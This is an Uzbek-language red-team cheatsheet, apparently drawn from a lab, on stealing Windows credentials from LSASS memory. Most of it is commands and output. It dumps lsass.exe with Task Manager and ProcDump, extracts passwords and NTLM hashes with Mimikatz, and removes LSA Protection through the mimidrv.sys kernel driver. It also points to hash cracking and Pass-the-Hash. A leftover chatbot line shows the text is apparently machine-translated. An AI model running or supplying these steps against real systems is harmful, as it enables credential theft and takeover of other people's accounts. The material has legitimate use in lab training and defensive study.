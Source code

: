 ### 🧠 **LSASS nima?**

**LSASS (Local Security Authority Server Service)** — bu **Windows** operatsion tizimidagi **xavfsizlik siyosatini boshqaradigan** va uni tizimda **amalga oshiradigan jarayon** (process) hisoblanadi.

🔐 LSASS quyidagi vazifalarni bajaradi:

* Foydalanuvchi tizimga kirganini **tekshiradi** (autentifikatsiya).
* **Parollar, NTLM hashlar, Kerberos chiptalari** (tickets) kabi ma'lumotlarni boshqaradi.
* Foydalanuvchilar tarmoqli resurslarga (masalan, fayl ulashish, SharePoint, tarmoq xizmatlari) **har safar parol kiritmasdan** kirishi uchun credential’larni xotirada saqlaydi.

---

### 🎯 **Red Team uchun LSASS nega muhim?**

* LSASS jarayoni ichida **foydalanuvchi parollari, hashlari va tokenlar** saqlanadi.
* Shuning uchun u **qimmatli nishon (juicy target)** hisoblanadi.
* Agar bizda **Administrator huquqlari** bo‘lsa, biz **LSASS jarayonining xotirasini (memory)** nusxalab olishimiz mumkin.

---

### 🛠️ **LSASS Memory’ni Dump qilish (saqlab olish)**

Windows tizimida har qanday jarayonni **dump qilish**, ya’ni xotirasining “snapshot”ini yaratish mumkin. Bu jarayon orqali xotirada saqlanayotgan parollar va tokenlar olinadi.

Bu hujum **MITRE ATT\&CK** ramkasida quyidagicha tasniflanadi:

> **"OS Credential Dumping: LSASS Memory (T1003)"**

---

### 🖥️ **GUI orqali (grafik interfeys) LSASS’ni dump qilish:**

1. **Task Manager (Vazifalar boshqaruvchisi)** ni oching.
2. **Details** tab’iga o‘ting.
3. **lsass.exe** jarayonini toping.
4. Ustiga **o‘ng tugmani** bosing va **“Create dump file”** ni tanlang.

Bu bilan siz **LSASS jarayonining xotira nusxasini** (dump) olasiz. Keyinchalik bu dump faylni **mimikatz, pypykatz yoki procdump** kabi vositalar bilan analiz qilish mumkin.
![](https://github.com/akhatkulov/cheatsheets-for-windows/blob/main/Credentials%20Harvesting/Local%20Security%20Authority%20Subsystem%20Service%20(LSASS)/LSASS.png?raw=true)


Albatta! Quyidagi matn o‘zbek tiliga **to‘liq tarjima** qilinib, **izohlar bilan** taqdim etilgan:

---

## 🧠 **LSASS Dump tugagandan so‘ng nima qilish kerak?**

LSASS (Local Security Authority Subsystem Service) jarayoni xotirasini dumplaganimizdan so‘ng, Windows **pop-up oynasi orqali fayl joylashgan manzilni ko‘rsatadi**.

🔸 Siz bu `.DMP` faylni **AttackBox** (yoki boshqa analiz kompyuterga) ko‘chirishingiz kerak bo‘ladi — bu orqali **NTLM hashlarni offline yechish** (brute-force yoki boshqa usullar bilan) mumkin bo‘ladi.

> 🛑 Eslatma: VM (virtual mashina) ustida bu amallarni bajarayotganda **birinchi urinishda xatolik** chiqadi. Chunki **LSASS himoyasi yoqilgan** bo‘ladi (bu keyingi qismda o‘chiriladi).

---

## 📂 **LSASS dump faylini nusxalash:**

```cmd
copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
```

✅ Fayl `C:\Tools\Mimikatz\` ichiga nusxalandi. Endi uni analiz qilish mumkin.

---

## ⚙️ **ProcDump orqali LSASS dump qilish (GUI yo‘q bo‘lsa):**

Agar grafik interfeys mavjud bo‘lmasa, **`ProcDump`** vositasidan foydalanish mumkin. Bu **Sysinternals Suite** tarkibida bo‘lgan, **komandali satrda ishlaydigan vosita**.

🛠 Yo‘li:

```
C:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe C:\Tools\Mimikatz\lsass_dump
```

🔍 Natija:

```
[09:09:33] Dump 1 initiated...
[09:09:34] Dump complete: 163 MB written
```

> 🧨 Diqqat: Ushbu fayl **diskka yoziladi**. LSASS dump qilish — **xavfsizlik tahdidi** bo‘lgani sababli, ko‘p hollarda **antiviruslar tomonidan aniqlanadi va bloklanadi**. Haqiqiy hujum holatlarida, **shifrlash yoki chetlab o‘tish texnikalari** ishlatiladi.


**Mimikatz** — LSASS xotirasidan quyidagi ma’lumotlarni olish uchun ishlatiladi:

* 📌 Parollar (plain-text)
* 📌 NTLM hashlar
* 📌 PIN
* 📌 Kerberos chiptalari (ticket)
* 📌 DPAPI kalitlari

Shuningdek, quyidagi **post-exploitation** hujumlar uchun ham foydali:

* 🧩 **Pass-the-Hash**
* 🧩 **Pass-the-Ticket**
* 🧩 **Golden Ticket**

---

## ▶️ **Mimikatz ishga tushirish (Administrator sifatida):**

```cmd
C:\Tools\Mimikatz> mimikatz.exe
```

### 🎛 Privilegeni faollashtirish:

```mimikatz
privilege::debug
```

✅ `Privilege '20' OK` chiqsa, sizda **xotiraga kirish ruxsati mavjud**.

---

## 🔓 **sekurlsa::logonpasswords — xotiradagi credential’larni ko‘rish:**

```mimikatz
sekurlsa::logonpasswords
```

🧾 Misol natija:

```
User Name         : Administrator
NTLM             : 98d3a787a80d08385cea7fb4aa2a4261
SHA1             : 64a137cb8178b7700e6cffa387f4240043192e72
```

> ✅ Ushbu NTLM hash’ni **Hashcat** yoki boshqa vositalar orqali **bruteforce qilib ochish** mumkin.

> ⚠️ Diqqat: Bu credential’lar faqat **tizimga kirilgan foydalanuvchilar** uchun mavjud bo‘ladi.

---

## 🔐 **LSASS himoyasi (Protected LSASS) — LSA Protection**

2012-yildan boshlab Microsoft **LSA Protection** qo‘shdi. Bu himoya **LSASS xotirasiga to‘g‘ridan-to‘g‘ri kirishni bloklaydi**.

### 🧩 Registry orqali LSA ni yoqish:

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
DWORD: RunAsPPL = 1
```

> Agar bu yoqilgan bo‘lsa, Mimikatz orqali `sekurlsa::logonpasswords` bajarilganda **xatolik chiqadi**:

```mimikatz
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

---

## 🛠 **Mimikatz’da LSA himoyasini chetlab o‘tish (mimidrv.sys yordamida):**

1. Mimikatz’da quyidagini bajaring:

```mimikatz
!+
```

> Bu **`mimidrv.sys` kernel drayver** yuklaydi. U orqali **LSASS himoyasini o‘chirish** mumkin.

2. Himoyani olib tashlash:

```mimikatz
!processprotect /process:lsass.exe /remove
```

✅ Endi `sekurlsa::logonpasswords` buyrug‘ini qayta bajarsangiz, **credential’lar ko‘rinadi**.

Jarayon:
```
cd C:\Tools\Mimikatz\mimikatz.exe
!+
!processprotect /process:lsass.exe /remove
privilege::debug
sekurlsa::logonpasswords
```
